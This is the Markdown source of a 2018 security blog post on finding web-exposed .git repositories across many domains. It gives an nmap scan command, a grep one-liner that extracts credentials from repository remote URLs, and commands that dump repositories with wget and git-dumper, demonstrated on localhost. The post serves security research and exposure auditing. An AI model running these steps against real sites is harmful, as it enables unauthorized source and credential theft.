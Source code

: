 ```yaml
---
layout: post
title:  "Gathering some information from web exposed git repositories"
date:   2018-08-05
category: Web Security
excerpt_separator: <!--more-->
---
```

Hello folks,  
  
Last week, while i was doing recon on some websites, i noticed that we can still found some versioning repositories in production. I found some classic **.git** exposed, and in a lesser extent some **.svn** directories. I decided to gather a bunch of websites caught in the TOP Alexa in order to look for the proportion of .git exposed; with **112332** domains scanned (mixed TLDs), i found **453** .git exposed, which is only **0.4%**. Not bad.  

How to scan for web exposed git directories:  
```nmap --open -PN -n -p80,81,82,8000,8080,443,8443,9443 --script http-git -oA http-git -iL domains.lst```  
<!--more-->
  
*N.B: this NSE script will perform HTTP requests thanks to input FQDNs (vhosting)*  
  
Some developers may clone repository specifying their login and password as part of the url, setting this remote origin in the git configuration. For example, once your nmap done, you can spot some login:password playing with this command:  

```
$ grep -A1 Remotes http-git.nmap | grep -E ":.*:[^:]*@.*" | awk '{print $2}'
https://apixxxxxx:[redacted]@github.com/apixxxxxx/apixxxxxx.git
http://deploy:[redacted]@10.0.0.4:7990/scm/[redacted]/portal.git
...
```
  
However i was looking for other information, for example:  
 - repository's activity; last commit date for each branch
 - repo directory traversal (great to download the whole repo)
 - highlights remote url
 - displays .git/config and .gitignore files
  
Knowing a bit of a [.git repository layout](https://git-scm.com/docs/gitrepository-layout) will allow to easily retrieve this information even if you don't have any directory traversal.  
That's why i created a bash script gathering this information which you can find [here](https://github.com/phackt/pentest/blob/master/fingerprint/web/git.sh).  
  
![image1]({{ site.url }}/public/images/git-exposed/gittool.png)
  
If a repository seems interesting and has directory traversal and/or leaks in its remote url some credentials, you can simply download or clone the repository. For example to download the whole repo you can do the following:  
```
$ wget --recursive --no-parent http://localhost/phackt.github.io/.git/ && \
cd localhost/phackt.github.io && \
git reset --hard
```  
  
Now what happens if you didn't find any creds (most of the cases) and **directory traversal is not enabled** ? I will not reinvent the wheel and advice you to read this [article](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) amongst others.  

```
$ curl -I http://localhost/phackt.github.io/.git/
HTTP/1.1 403 Forbidden
Date: Sat, 11 Aug 2018 17:00:04 GMT
Server: Apache/2.4.33 (Debian)
Content-Type: text/html; charset=iso-8859-1
```  
  
I gave a try to another [git dumper tool](https://github.com/arthaud/git-dumper):  
  
```
$ git clone https://github.com/arthaud/git-dumper.git && cd git-dumper
$ pip install -r requirements.txt
$ ./git-dumper.py http://localhost/phackt.github.io/.git/ /tmp/repo
[-] Testing http://localhost/phackt.github.io/.git/HEAD [200]
[-] Testing http://localhost/phackt.github.io/.git/ [403]
[-] Fetching common files
[-] Fetching http://localhost/phackt.github.io/.git/COMMIT_EDITMSG [200]
[-] Fetching http://localhost/phackt.github.io/.git/description [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/commit-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-commit.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-receive.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-commit.sample [200]
...
[-] Running git checkout .
```  
  
We can now inspect our freshly rebuilt repository:  

```
$ cd /tmp/repo && ls -1
about.md
categories.md
CNAME
_config.yml
feed.xml
_includes
index.html
_layouts
POC
_posts
public
_sass
```  
  
See you soon,  
Cheers.